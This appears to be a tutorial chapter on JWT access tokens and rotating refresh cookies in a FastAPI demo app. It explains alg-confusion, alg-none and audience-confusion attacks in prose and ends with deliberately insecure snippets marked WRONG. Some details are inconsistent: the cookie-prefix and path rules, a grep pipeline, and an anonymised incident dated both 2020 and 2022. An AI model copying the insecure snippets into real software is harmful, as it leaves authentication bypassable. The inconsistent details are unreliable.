When PyJWT's `jwt.decode(token, key, algorithms=["HS256"], issuer=...)` runs, it does not "decrypt" the token — JWTs are not encrypted, they are signed. The verification walks seven steps. (1) Split the token on `.` into three base64url parts: header, payload, signature. (2) Base64url-decode the header JSON; check the `alg` is in the `algorithms=` allowlist you passed (this is the callout that defends against `alg: none` and the alg-confusion attack below — covered shortly). (3) Re-serialise the `header.payload` string exactly as it appeared, base64url-decode the signature, and recompute the HMAC (or verify the RSA/ECDSA signature) using the key and the algorithm from the header. (4) If the signature does not match, raise `InvalidSignatureError`. (5) Base64url-decode the payload JSON; check `exp` (raise `ExpiredSignatureError` if `now > exp + leeway`), `nbf` (raise `ImmatureSignatureError` if `now < nbf`), `iat` (optional skew check), and `iss` against the `issuer=` argument (raise `InvalidIssuerError` on mismatch). (6) Check `aud` against the `audience=` argument if you passed one (raise `InvalidAudienceError`). (7) Return the payload as a dict. The signature verification in step 4 is the only step that proves *the token was issued by someone holding the key*; every other step is a claim check. The order matters: signature first, claims second. A common bug is to decode the payload (step 5) *before* verifying the signature — a one-line bug that lets an attacker forge any claim they want, because they are reading attacker-controlled bytes off an attacker-controlled token without having verified the signature bound the payload to a trusted issuer. Use the library; never roll your own decode.


**Warning — Debugging: the access JWT that arrived already expired.**

The server's clock is 6 minutes ahead of the client's clock (NTP drift, a misconfigured timezone, a container without `chrony`). The server issues an access JWT with `exp = now + 5 minutes` (server's `now`); the client receives the JWT 100 ms later, parses `exp`, computes `client_now` (which is 6 minutes behind the server's `now`), and finds `exp < client_now` — the JWT is already expired from the client's perspective. The SPA's silent-refresh fires immediately, racing with the original `/auth/login`'s response handling; the user sees a flicker of "loading" on every page load. The diagnosis: JWT's `exp` is a server-clock timestamp; the client's clock drift becomes the failure mode. The fix has two layers. (1) *Use `iat` (issued-at) for client-side expiry calculation, not `exp` directly.* The client stores `Date.now() + expires_in * 1000` (using the `expires_in` field from the response, not the JWT's `exp`), so the client computes the expiry relative to its own clock at the moment of issuance, not relative to the server's clock at the moment of signing. (2) *Synchronise clocks via NTP on every server.* The container's `chrony` or `systemd-timesyncd` keeps the server's clock within 10 ms of UTC; a 5-minute drift is the alert threshold. The grep: `rg "chrony|systemd-timesyncd|ntpd" boardly/docker/Dockerfile*` should return the time-sync service; the CI check: `pytest tests/test_clock_drift.py` asserts the server's clock is within 50 ms of `datetime.now(UTC)`. See [[02b-Backend-Foundations/HTTP-Headers-Deep-Dive]] for the `Date` header's role in clock synchronisation and [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the NTP-monitoring alert.


**Danger — How an attacker thinks: the JWT `alg` confusion attack.**

The `alg` confusion attack exploits a JWT library that trusts the `alg` field in the token header. The attack: a server issues JWTs signed with `RS256` (asymmetric — the signing key is RSA private, the verifying key is RSA public). The attacker obtains any legitimately-issued JWT (their own, after logging in), changes the header's `alg` from `RS256` to `HS256`, and recomputes the signature as `HMAC-SHA256(server's_public_RSA_key, header.payload)`. If the server's JWT verification library trusts the `alg` from the header — i.e., it calls `jwt.decode(token, key=public_RSA_key, algorithms=None)` or `algorithms=["HS256", "RS256"]` — the library will use the RSA public key *as an HMAC key* and verify the attacker's signature as valid. The attacker now forges any payload they want. The defence is the `algorithms=` parameter, passed as an explicit list, never `None`: `jwt.decode(token, key=public_key, algorithms=["RS256"])`. With this single line, PyJWT rejects any token whose header `alg` is not `RS256`, and the attack closes. The general principle is *never let the token declare its own verification algorithm* — the verifier's configuration is the only authority on which algorithms are acceptable. The same principle applies to the `alg: none` attack (covered above) and to the newer `JWK-set injection` variants where an attacker provides their own key in the header. PyJWT, since 2.x, has refused `alg: none` by default and has required `algorithms=` to be a non-empty list; do not work around either.


**Danger — How an attacker thinks: the `sub` claim set to the user's email.**

The JWT's `sub` (subject) claim is set to the user's email (`"sub": "alice@boardly.dev"`) instead of the user's stable id (`"sub": "1"`). The vulnerability is two-fold. (1) *Email change invalidates every existing JWT.* When Alice changes her email (a legitimate account-settings flow), her `sub` changes; every existing JWT with `"sub": "alice@boardly.dev"` no longer matches the user-lookup query (`SELECT * FROM users WHERE email = $sub`); Alice is logged out of every device. The blast radius is a self-DoS, not an attack — but the user's experience is "I changed my email and all my sessions died." (2) *Email leakage to every service that verifies the JWT.* Every downstream service that verifies the JWT reads the `sub` claim; if the `sub` is the email, every service has Alice's email in its logs, its metrics, its error messages. The General Data Protection Regulation (GDPR) considers email as personally identifiable information (PII); the email's appearance in every service's logs is a compliance violation. The defence: the `sub` claim is a *stable, opaque identifier* — the user's numeric id (`"sub": "1"`) or a UUID (`"sub": "01HQ..._uuid..."`), never the email. The user's email is a separate claim (`"email": "alice@boardly.dev"`) or a downstream lookup, never the `sub`. The grep: `rg "\"sub\".*email|sub.*=.*email" boardly/routers/auth.py` should return nothing — the `sub` is the user id, not the email. The CI check: `pytest tests/test_jwt_sub_claim.py` asserts every issued JWT's `sub` matches the user's stable id, not their email. See [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the `sub` claim's contract and [[11-Authentication-and-Security/RBAC-and-Object-Level-Auth]] for the user-id-as-principal pattern.


**Danger — How an attacker thinks: the audience confusion attack on multi-service JWTs.**

A multi-service backend issues a JWT for service A (the `aud` claim is `"service-a"`); service B accepts any JWT signed by the shared key, regardless of `aud` (the verifier does not check `aud`). An attacker who is a legitimate user of service A captures their JWT (via XSS, via log capture, via devtools) and replays it against service B; service B's verifier accepts the JWT (the signature is valid), and the attacker is now authenticated as Alice on service B — even though Alice never had access to service B. The vulnerability is *audience confusion*: the JWT's `aud` claim is the intended audience, and a verifier that does not check `aud` accepts a JWT intended for a different service. The defence: every JWT's verifier must check `aud` against the verifier's service name (`jwt.decode(token, key, audience="service-b")`); a JWT with `aud: "service-a"` decoded by service B raises `InvalidAudienceError`. The 2020 incident at a major SaaS commerce platform (anonymised as "Acme Commerce"): their billing service accepted any JWT signed by the shared key; an attacker captured their own storefront JWT and replayed it against the billing service, accessing every customer's invoices. The postmortem's fix: every service now passes `audience=<service-name>` to `jwt.decode`, and the test suite includes a "cross-service JWT replay" test that asserts a service-A JWT is rejected by service B. The grep: `rg "jwt.decode.*audience|jwt.decode.*aud" boardly/services/ | rg -v "audience="` should return nothing — every `jwt.decode` has the `audience=` parameter. The CI check: `pytest tests/test_audience_confusion.py` asserts a service-A JWT is rejected by service B's verifier. See [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]] for the `aud` claim's contract and [[05-Project-Architecture/Layered-FastAPI-Apps]] for the service-boundary discipline.


### Lines 81–86: Endpoint schemas

```python
class LoginRequest(BaseModel):
 email: str = Field(..., min_length=3)
 password: str = Field(..., min_length=1)


class TokenResponse(BaseModel):
 access_token: str
 token_type: str = "Bearer"
 expires_in: int = int(ACCESS_JWT_LIFETIME.total_seconds())
```

**What it does:** Defines the request body for `POST /auth/login` and the response body shape. `expires_in` is the access JWT's lifetime in seconds — the SPA uses this to know when to silent-refresh.

**Why these specific choices?**

- `email: str = Field(..., min_length=3)` — the minimum is a sanity gate, not a real email validator. It rejects empty strings and obviously broken input before the bcrypt + DB lookup runs. Real validation lives in the `verify_password` path; this `Field` is the cheap pre-filter.
- `password: str = Field(..., min_length=1)` — non-empty only. We deliberately do not enforce length on the *login* path, because enforcing a `min_length` here would let an attacker probe "what minimum does this API enforce?" by submitting passwords of growing length. Login is *verify*, not *enforce*; the enforce step is the `/auth/register` path (not in this lesson).
- `token_type: str = "Bearer"` — the OAuth2 Bearer Token spec (RFC 6750) calls this field `token_type` and the only standardised value is `"Bearer"`. Generic OAuth2 client libraries read `token_type` and `access_token` straight off the response — naming them anything else breaks that compatibility. (FastAPI's `OAuth2PasswordBearer` dependency expects these exact field names.)
- `expires_in: int` (seconds, not a datetime) — RFC 6749 §4.2.2 names this field `expires_in` and specifies integer seconds. The SPA stores `Date.now() + expires_in * 1000` and schedules a silent refresh 5–10 seconds before that deadline. A datetime would require the client and server to agree on clocks, which they can't — seconds-from-issuance is clock-agnostic.

### Lines 92–123: `POST /auth/login`

```python
@router.post("/login", response_model=TokenResponse)
async def login(body: LoginRequest, response: Response) -> TokenResponse:
 user_id = _verify_password(body.email, body.password)

 access_jwt = _issue_access_jwt(user_id)

 token_id = _new_token_id()
 csrf_token = secrets.token_urlsafe(32)
 refresh_row = RefreshTokenRow(
 token_id=token_id,
 user_id=user_id,
 csrf_token=csrf_token,
 expires_at=datetime.now(UTC) + REFRESH_TOKEN_LIFETIME,
 )
 _REFRESH_DB[token_id] = refresh_row

 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value=_encode_refresh_cookie(token_id),
 max_age=int(REFRESH_TOKEN_LIFETIME.total_seconds()),
 secure=True,
 httponly=True,
 samesite="strict",
 path="/auth",
 )
 return TokenResponse(access_token=access_jwt, expires_in=int(ACCESS_JWT_LIFETIME.total_seconds()))
```

**What it does:** Verifies the password, issues an access JWT (returned in the body), issues a refresh token (stored server-side and sent as a cookie), returns the access JWT.

**Why `path="/auth"`?** So the cookie is sent *only* to `/auth/*` endpoints, not to every endpoint. The `/projects` endpoints do not need the refresh cookie; they use the access JWT. Limiting the cookie's path reduces the surface area — an attacker who finds a way to read request headers can only read the refresh cookie on `/auth/*` requests.

**When does server-side session beat JWT?**

Three cases — revocation, concurrent-session limits, observable session metadata. The full answer lives in the Engineering Trade-Offs section below (it sits naturally next to the JWT-vs-server-side-session comparison table). Read it there; do not skip — the three cases are the load-bearing reason this lesson recommends JWT access + server-side refresh instead of either pattern alone.


### Lines 126–170: `POST /auth/refresh`

```python
@router.post("/refresh", response_model=TokenResponse)
async def refresh(
 response: Response,
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_COOKIE_NAME)] = None,
) -> TokenResponse:
 if refresh_cookie is None:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="no refresh cookie")
 token_id = _decode_refresh_cookie(refresh_cookie)
 refresh_row = _REFRESH_DB.get(token_id)
 if refresh_row is None:
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="refresh token not found")
 if refresh_row.expires_at < datetime.now(UTC):
 raise HTTPException(status_code=status.HTTP_401_UNAUTHORIZED, detail="refresh token expired")

 access_jwt = _issue_access_jwt(refresh_row.user_id)

 # --- Rotate the refresh token.
 del _REFRESH_DB[token_id]
 new_token_id = _new_token_id()
 new_row = RefreshTokenRow(
 token_id=new_token_id,
 user_id=refresh_row.user_id,
 csrf_token=refresh_row.csrf_token,
 expires_at=datetime.now(UTC) + REFRESH_TOKEN_LIFETIME,
 rotated_from=token_id,
 )
 _REFRESH_DB[new_token_id] = new_row
 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value=_encode_refresh_cookie(new_token_id),
 max_age=int(REFRESH_TOKEN_LIFETIME.total_seconds()),
 secure=True,
 httponly=True,
 samesite="strict",
 path="/auth",
 )
 return TokenResponse(access_token=access_jwt, expires_in=int(ACCESS_JWT_LIFETIME.total_seconds()))
```

**What it does:** Silent refresh. Reads the refresh cookie, looks up the row, issues a new access JWT (returned in the body), rotates the refresh token (deletes the old row, issues a new row, sets a new cookie).

**Why rotate the refresh token?** Defense against replay. If an attacker steals the refresh cookie and uses it to silent-refresh, the legitimate user's next silent-refresh fails (the token has been rotated; the old token_id is gone). The legitimate user re-logs in, notices, and rotates their password. Without rotation, the attacker's stolen refresh token and the legitimate user's refresh token both work, indistinguishably, for the 30-day lifetime. Rotation makes the theft detectable. (See OAuth2 token rotation in [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]].)

**Refresh-token rotation has a trade-off.**

Rotation improves security (theft detection) at the cost of robustness (network retries). If the SPA sends two `/auth/refresh` requests in quick succession (e.g., a retry after a network blip), the second one fails — the first one rotated the token. The fix is "re-use detection": keep the old token in the DB for a short window, marked as `rotated`, and on a `/auth/refresh` with a rotated token, return the same new access JWT (without rotating again). This is the OAuth2 pattern. We omit it from this lesson for brevity; real `Boardly` should implement it.


**What happens inside: the rotation chain and the re-use window.**

When `/auth/refresh` rotates the refresh token, three things happen atomically — and the atomicity is what makes rotation a *defence* rather than a *vulnerability*. (1) The old `token_id`'s row in the refresh table is deleted (or, in a real schema, marked `revoked_at = now()` so the audit trail survives). (2) A new `token_id` is generated (`secrets.token_urlsafe(32)` — 32 bytes of entropy, 2^256 brute-force-resistant). (3) A new row is inserted with `rotated_from = old_token_id`, and a new signed cookie value is set on the response. The atomicity matters because if any of the three is interrupted (a crash between deleting the old row and inserting the new one, or between inserting the new row and setting the new cookie), the user is either logged out (the old row is gone, the new cookie was never set) or stuck with a refresh cookie that points to a deleted row. The fix for the crash-during-rotation case is a database transaction wrapping steps 1–2, with the cookie set only after the transaction commits — but the cookie-set itself cannot be atomic with the DB transaction (it is an HTTP response header), so a crash between commit and response-send leaves the user with a refresh cookie pointing to a row that exists in the DB but whose cookie value the user's browser never received. The re-use window (mentioned in the trade-off callout above) addresses the *network retry* case — a SPA that retries `/auth/refresh` after a network blip sends the old cookie again; the server, on seeing a `token_id` whose row is marked `rotated_at` within the last N seconds, returns the same access JWT it returned on the first call, without rotating again. The re-use window is also where *refresh-token theft detection* lives: a re-use *outside* the window (an attacker using a stolen cookie after the legitimate user has already rotated past it) is the signal that the refresh token was stolen. The senior auth engineer's rule for rotation is: *transaction-wrap the rotation; idempotent-return for the re-use window; alert on re-use outside the window.*


**Production reality: the `rotated_from` column as the incident-response forensic chain.**

The `refresh_tokens` table's `rotated_from` column (the previous `token_id` in the rotation chain) is not just a defence against replay — it is the forensic chain that incident response walks to identify the breach window. When a refresh-token reuse outside the re-use window is detected (the existing warning callout above), the incident responder's first query is `WITH RECURSIVE chain AS (SELECT * FROM refresh_tokens WHERE token_id = $reused_id UNION ALL SELECT r.* FROM refresh_tokens r JOIN chain c ON r.token_id = c.rotated_from) SELECT * FROM chain;` — the recursive CTE walks the rotation chain from the reused token to the current head, returning every row in the chain with its `issued_at`, `first_ip`, `first_user_agent`. The chain's `issued_at` timestamps define the breach window (from the original issue to the reuse); the `first_ip` and `first_user_agent` identify the device that received the original token. The 2022 incident at a major SaaS commerce platform (anonymised as "Acme Commerce"): the chain showed the original token was issued to a Chrome user-agent on a residential IP in New York, and the reuse came from a curl user-agent on a datacenter IP in Eastern Europe 4 hours later — the breach vector was a stored XSS that exfiltrated the refresh cookie via a `fetch()` call. The postmortem's remediation: revoke the chain, force a password reset, deploy the XSS fix. The senior auth engineer's rule: *the `rotated_from` column is the audit trail; index it (`CREATE INDEX idx_refresh_rotated_from ON refresh_tokens (rotated_from) WHERE rotated_from IS NOT NULL`); query it in every incident response; preserve it for the forensic window (90 days minimum).* The grep: `rg "rotated_from" boardly/sql/refresh_tokens.sql | rg -i "index"` should return the index; the CI check: `pytest tests/test_rotation_chain_walk.py` asserts the recursive CTE returns the full chain from any node. See [[06-SQL-Fundamentals/Joins-Aggregations-CTEs]] for the recursive CTE pattern and [[13-Performance-and-Observability/Structured-Logging-and-Request-IDs]] for the incident-response log query.


**Warning — When this breaks: refresh-token reuse outside the window.**

**Symptom:** Your SIEM fires an alert at 03:00 — a refresh-token reuse was detected. The same `rotated_from` chain that ended at `token_id = 9b2e7c11...` was just presented again at `/auth/refresh`, an hour after it was rotated.
**Diagnosis:** This is not a bug; this is the signal that an attacker has the user's refresh cookie and is using it after the legitimate user already rotated past it. The legitimate user's `/auth/refresh` at 02:55 rotated `9b2e7c11...` to `f8a1d3...`; the attacker, who exfiltrated the `9b2e7c11...` cookie value earlier, is now using it at 03:00. Because `9b2e7c11...` is in the `rotated_from` chain with `revoked_at` set, your `/auth/refresh` handler can distinguish three cases: (a) the token is the current head — rotate normally; (b) the token is within the re-use window — return the same access JWT idempotently; (c) the token is `rotated_at` outside the window — *re-use detected, revoke the chain*.
**Don't panic:** The defence worked — the rotation detected the theft. The user is being attacked, but the attacker cannot maintain access once you revoke the chain.
**Fix:** Revoke the entire chain. Walk `rotated_from` from the reused token to the current head, mark every row `revoked_at = now()`, set a forced-logout flag on the user, send a "your account was accessed from an unusual location" notification, and require a fresh login with a password reset. The other half of the fix is *finding the vector* — refresh-token reuse outside the window almost always means an XSS, a malicious browser extension, a compromised shared device, or a proxy that logged the cookie. The post-mortem checklist is: when was the stolen token issued? Which IP first presented the current chain? Which user-agent? Was the user's device shared, or is the user's browser compromised? The rotation pattern does not prevent theft; it makes theft *detectable*, which is the senior auth engineer's contract with the operator.


### Lines 173–198: `POST /auth/logout`

```python
@router.post("/logout", status_code=status.HTTP_204_NO_CONTENT)
async def logout(
 response: Response,
 refresh_cookie: Annotated[str | None, Cookie(alias=REFRESH_COOKIE_NAME)] = None,
) -> Response:
 if refresh_cookie is not None:
 try:
 token_id = _decode_refresh_cookie(refresh_cookie)
 _REFRESH_DB.pop(token_id, None)
 except HTTPException:
 pass
 response.set_cookie(
 key=REFRESH_COOKIE_NAME,
 value="",
 max_age=0,
 expires=0,
 secure=True,
 httponly=True,
 samesite="strict",
 path="/auth",
 )
 return Response(status_code=status.HTTP_204_NO_CONTENT)
```

**What it does:** Deletes the refresh token row and clears the cookie.

**Why does logout not also revoke the access JWT?** Because the access JWT is stateless — there's no server-side row to delete. The access JWT expires naturally in 5 minutes. If the SPA also clears the JWT from memory on logout, the user is effectively logged out immediately. For "logout-everywhere" semantics, you need a JWT blocklist — see the "do not do this" warning above.

### Lines 205–213: `get_current_user`

```python
async def get_current_user(
 token: Annotated[str | None, Depends(oauth2_scheme)] = None,
) -> dict:
 if token is None:
 raise HTTPException(
 status_code=status.HTTP_401_UNAUTHORIZED, detail="not authenticated",
 )
 return _verify_access_jwt(token)
```

**What it does:** The dependency for protected endpoints. Reads the access JWT from the `Authorization` header, verifies it, returns the canonical user dict `{"sub": str, "id": int, "email": str}`. Routes that need only the user id read `user["sub"]` (a string per RFC 7519); routes that need an int read `user["id"]`.

**The `user` dict shape is canonical across this vault.**

`get_current_user` returns `{"sub": str, "id": int, "email": str}` — the same
shape used by [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh]],
[[Real-Time-Transports-Compared]], [[Resumable-and-Chunked-Uploads]],
and [[API-Versioning-Strategies]]. Copy it as-is; do not re-derive the
claim shape per endpoint.


**Why not also read the refresh cookie here?** Because protected endpoints (`/projects`, etc.) should not need the refresh cookie. They use the access JWT. The refresh cookie is only for `/auth/refresh`. Mixing them would mean the refresh cookie is sent on every request — widening the surface area. By limiting the refresh cookie to `path="/auth"`, the browser does not send it to other endpoints.

**Warning — When this breaks: the stolen access-token incident.**

**Symptom:** A user reports "someone is posting from my account." Your logs show two simultaneous sessions for the same `user_id` from different IPs and different user-agents, both sending valid access JWTs.
**Diagnosis:** First, distinguish the three credential types that could be compromised — the access JWT (5-minute lifetime, in the SPA's memory or `sessionStorage`), the refresh cookie (30-day lifetime, `httpOnly`, server-side row), or the password itself (re-issuable). If both sessions are using access JWTs issued from the *same* refresh-row `token_id`, the refresh cookie was stolen; if they are using access JWTs issued from *different* refresh-row IDs (or different `rotated_from` chain roots), the password was stolen and the attacker logged in independently. Look at the `iat` of the earliest suspicious JWT; trace back through `_REFRESH_DB` to find which `token_id` issued it; check the chain's root `token_id`'s first-use IP and user-agent.
**Don't panic:** The 5-minute access-JWT `exp` is doing its job — the attacker's window is short. The faster you revoke the refresh chain, the smaller the attacker's window becomes. Even if revocation takes 5 minutes to propagate (because the access JWT in flight is still valid until its `exp`), the attacker's persistent access is gone the moment the refresh chain is revoked.
**Fix:** Revoke the entire refresh-token chain for this user (`UPDATE refresh_tokens SET revoked_at = now() WHERE user_id = $1`), force a password reset, send a security notification, and review the user's recent activity for damage assessment. Then find the vector — an XSS, a malicious extension, a compromised shared device, a logged cookie. If the vector is a stored XSS, the fix is at the rendering layer, not the auth layer; if it is an extension, no server-side fix exists and you should advise the user to audit their extensions. The structural defence is the recommended pattern in this lesson: the access JWT is in the SPA's memory (not `localStorage`, so an XSS cannot exfiltrate it), the refresh cookie is `httpOnly` + `SameSite=Strict` (so an XSS cannot read it and a CSRF cannot trigger it), and rotation makes the theft detectable. The post-mortem checklist is: *was the access JWT in `localStorage`? was the refresh cookie `SameSite=Lax` instead of `Strict`? was there a recent XSS? is rotation enabled and is the re-use window alerting?* Each "no" is a fix; each "yes" is the vector.


## Execution Trace

Run the auth flow end-to-end. We'll start Uvicorn, then drive login, refresh, a protected call, and logout — and watch the cookies, the JWT, and the in-memory `refresh_tokens` table.

### Setup

```bash
# Terminal 1 — start the app on HTTPS (the __Host- cookie requires Secure,
# which requires HTTPS). Generate a local cert with mkcert:
#   mkcert -install && mkcert localhost 127.0.0.1
# Then run Uvicorn with the cert files:
uv run uvicorn boardly.main:app --port 8000 --reload \
 --ssl-keyfile=./localhost-key.pem --ssl-certfile=./localhost.pem

# Terminal 2 — drive the endpoints with curl (use https://127.0.0.1 and -k
# to skip the self-signed cert; the mkcert root is already trusted by your
# system so -k is optional locally, but it is needed in CI).
uv add PyJWT itsdangerous fastapi uvicorn
```

**Warning — The `__Host-` cookie requires HTTPS — `Secure` is non-negotiable.**

The Execution Trace and Verification both use `https://127.0.0.1:8000`.
On localhost, generate a local cert with `mkcert` (a tiny Go tool that
installs a trusted root CA on your system). In staging and production,
HTTPS is terminated by your reverse proxy (Nginx, Caddy, AWS ALB) and the
`__Host-` cookie is set on the public domain. Do NOT ship plaintext HTTP
for any auth endpoint in production — the `__Host-` cookie's `Secure`
attribute would silently be dropped by the browser, and the refresh token
would be sent over plaintext where any on-path attacker can read it.


**Warning — Debugging: the `__Host-` cookie that silently disappeared in staging.**

The staging environment runs on plaintext HTTP (no TLS terminated at the edge — staging is internal, the team argues, so TLS is unnecessary). The login flow returns `Set-Cookie: __Secure-refresh=...; Secure; HttpOnly; SameSite=Strict; Path=/auth`, but the browser silently drops the cookie because `Secure` requires TLS. The SPA calls `/auth/refresh`, the browser does not send the cookie (it was dropped), the server returns `401 no refresh cookie`, and the SPA's silent-refresh loop fails. The diagnosis: the `Secure` attribute is non-negotiable for `__Host-` and `__Secure-` prefixed cookies; staging without TLS cannot ship the cookie. The fix has two layers. (1) *Staging must use TLS.* Generate a cert with `mkcert localhost 127.0.0.1` locally, or terminate TLS at the staging reverse proxy (Nginx, Caddy) with a self-signed cert. (2) *Refuse to start the app if the env is misconfigured.* A `settings.py` check: `if settings.env == "staging" and not settings.tls_enabled: raise RuntimeError("staging requires TLS for __Host- cookies")` — fail fast at boot, not at the first login. The grep: `rg "tls_enabled|tls_required" boardly/config.py` should return the env check; the CI check: `pytest tests/test_staging_tls.py` asserts the app refuses to start in staging without TLS. See [[02b-Backend-Foundations/HTTP-Cookies-Deep-Dive]] for the `__Host-` prefix's three constraints and [[16-Deployment-and-DevOps/Docker-Compose-Local-Dev]] for the local-TLS setup.


### Step 1: `POST /auth/login` (get the access JWT and the refresh cookie)

```bash
curl -k -i -X POST https://127.0.0.1:8000/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"email":"alice@boardly.dev","password":"alice-demo-pw-2026"}' \
  -c /tmp/cookies.txt
```

Expected output:

```
HTTP/1.1 200 OK
content-type: application/json
set-cookie: __Secure-refresh=InNvbWVfaGFza....; Path=/auth; Secure; HttpOnly; SameSite=Strict
content-length: 234

{"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxIiwiaXNzIjoiYm9hcmRseS5kZXYiLCJpYXQiOjE3NjE2MjIwMDAsImV4cCI6MTc2MTYyMjMwMCwian0aSI6ImY3ZjB4...","token_type":"Bearer","expires_in":300}
```

Two things happen at once: the access JWT is in the JSON body (the SPA grabs it and stores it in memory), and the `__Secure-refresh` cookie is `set-cookie`'d by the server. Note the four cookie attributes — `Secure`, `HttpOnly`, `SameSite=Strict`, `Path=/auth` — exactly as the Line-by-Line walk explained. No `Domain=` is set, so the cookie is host-only (defense against subdomain takeover).

### Step 2: inspect the cookie jar and the refresh table

```bash
cat /tmp/cookies.txt | grep __Secure-refresh
# __Secure-refresh    HTTPS    127.0.0.1   /auth    TRUE    ...   TRUE    ...
```

```python
# In a Python REPL while the app is running
>>> from boardly.routers.auth import _REFRESH_DB
>>> for tid, row in _REFRESH_DB.items():
...     print(tid[:8], "user_id=", row.user_id, "csrf=", row.csrf_token[:8], "rotated_from=", row.rotated_from)
... 
f7f0x4a7 user_id= 1 csrf= aB91cD2x rotated_from= None
```

One row. `rotated_from` is `None` — this is the first issue of the token. The chain will grow on the first refresh.

### Step 3: `POST /auth/refresh` (silent refresh with rotation)

```bash
curl -k -i -X POST https://127.0.0.1:8000/auth/refresh -b /tmp/cookies.txt -c /tmp/cookies.txt
```

Expected output:

```
HTTP/1.1 200 OK
content-type: application/json
set-cookie: __Secure-refresh=Im5ld190b2tlbi....; Path=/auth; Secure; HttpOnly; SameSite=Strict
content-length: 234

{"access_token":"eyJhbGciOiJIUzI1NiIs...new_jti...","token_type":"Bearer","expires_in":300}
```

A new access JWT (with a new `jti`) and a *new* refresh cookie. The browser now replaces the old cookie. Behind the scenes:

```python
>>> for tid, row in _REFRESH_DB.items():
...     print(tid[:8], "user_id=", row.user_id, "rotated_from=", row.rotated_from)
... 
9b2e7c11 user_id= 1 rotated_from= f7f0x4a7
```

The old row was deleted (`del _REFRESH_DB[token_id]`); a new row with a new `token_id` exists; its `rotated_from` points back to the original. Replay an old cookie → 401 (the row is gone). That's the rotation defence against a stolen refresh cookie.

### Step 4: call a protected endpoint with the access JWT

```bash
ACCESS=$(curl -k -s -X POST https://127.0.0.1:8000/auth/refresh -b /tmp/cookies.txt -c /tmp/cookies.txt | python -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')
curl -k -i https://127.0.0.1:8000/projects/p_001 -H "Authorization: Bearer $ACCESS"
```

Expected output:

```
HTTP/1.1 200 OK
content-type: application/json
content-length: 142

{"id":"p_001","name":"Boardly Q4 launch","owner_id":1}
```

The `get_current_user` dependency extracted the JWT from the `Authorization` header, verified it, returned `user_id=1`. **No cookie was sent** — `__Secure-refresh` has `Path=/auth`, so the browser does not attach it to `/projects`. Confirmed in the Uvicorn logs:

```
INFO:     127.0.0.1:53842 - "GET /projects/p_001 HTTP/1.1" 200 OK
```

No cookie in the request line — only the `Authorization` header.

### Step 5: call the protected endpoint *without* the JWT

```bash
curl -k -i https://127.0.0.1:8000/projects/p_001
```

Expected output:

```
HTTP/1.1 401 Unauthorized
content-type: application/json
content-length: 32

{"detail":"not authenticated"}
```

The `oauth2_scheme` returned `None` (no `Authorization` header), `get_current_user` raised `HTTPException(401)`. FastAPI's default exception handler turned that into the JSON error envelope. Note this is *not* a `application/problem+json` response — the production `Boardly` app wraps it in the Problem Details envelope from [[Problem-Details-RFC-7807]]; the bare `{"detail":...}` shape here is from Starlette's default.

### Step 6: `POST /auth/logout` (clear the cookie and the row)

```bash
curl -k -i -X POST https://127.0.0.1:8000/auth/logout -b /tmp/cookies.txt -c /tmp/cookies.txt
```

Expected output:

```
HTTP/1.1 204 No Content
set-cookie: __Secure-refresh=; Path=/auth; Max-Age=0; Secure; HttpOnly; SameSite=Strict; Expires=...
content-length: 0
```

`204 No Content` — the response body is empty (per `status_code=204`). The `set-cookie` header sets `Max-Age=0` and `Expires=...`, which causes the browser to delete the cookie immediately. The refresh table:

```python
>>> len(_REFRESH_DB)
0
```

Empty. The row was deleted in `_REFRESH_DB.pop(token_id, None)`. Even if the attacker has the cookie value, the server-side row is gone — replaying it returns 401 ("refresh token not found").

**Why is logout idempotent?**

If the user calls `/auth/logout` twice, the second call also returns 204. The cookie was already cleared on the first call (the browser did not send it on the second). The `if refresh_cookie is not None` guard means the endpoint handles "no cookie" gracefully — there's no row to delete, and the response still clears any orphaned cookie.


The full lifecycle — login → refresh → protected call → logout — took six curls and one REPL. If you can reproduce these six outputs on your machine, you have the recommended `Boardly` auth pattern running end-to-end.

## Common Mistakes

### Mistake 1: JWT in `localStorage`

```javascript
// WRONG — front-end stores the JWT in localStorage
localStorage.setItem('access_token', jwt);
```

**Symptom:** An XSS on your site exfiltrates the JWT. The attacker has long-lived access (until the JWT expires).

**Fix:** Store the JWT in the SPA's memory (a JS variable) or `sessionStorage` (survives page refresh within the same tab, but not a new tab). Use a silent-refresh flow when the JWT expires. Never `localStorage`.

### Mistake 2: JWT without `exp`

```python
# WRONG
payload = {"sub": str(user_id)}  # no exp
return jwt.encode(payload, JWT_SECRET, algorithm="HS256")
```

**Symptom:** The JWT is valid forever. If it leaks (via XSS, log file, devtools, etc.), the attacker has permanent access.

**Fix:** Always set `exp` to a short lifetime (5–15 minutes for access tokens). The JWT spec requires verification libraries to reject expired tokens by default.

### Mistake 3: JWT with `alg: none`

```python
# WRONG — accepts alg=none
payload = jwt.decode(token, JWT_SECRET, algorithms=None)  # accepts any alg
```

**Symptom:** An attacker forges a JWT with `alg: none` and no signature. The library accepts it. Authentication bypassed.

**Fix:** Always pin the algorithm explicitly: `algorithms=["HS256"]` (or whichever you use). Reject `alg: none` always.

### Mistake 4: Refresh cookie without `__Host-` prefix

```python
# WRONG
response.set_cookie(key="refresh", value=..., domain="boardly.dev", ...)
```

**Symptom:** A subdomain takeover (`evil.boardly.dev`) can overwrite the cookie. Session hijack.

**Fix:** Use the `__Host-` prefix (forces `Secure`, no `Domain`, `Path=/`). See [[HTTP-Cookies-Deep-Dive]].

### Mistake 5: Refresh cookie with `SameSite=Lax` (not `Strict`)

```python
# WRONG for refresh; right for flash
response.set_cookie(key="__Secure-refresh", value=..., samesite="lax", ...)
```

**Symptom:** The cookie is sent on top-level cross-site navigations. An attacker on `evil.com` who tricks the user into visiting `https://boardly.dev/auth/refresh` (a top-level navigation) sends the refresh cookie. If `/auth/refresh` is a `POST` that returns a new access JWT, the attacker can capture that response.

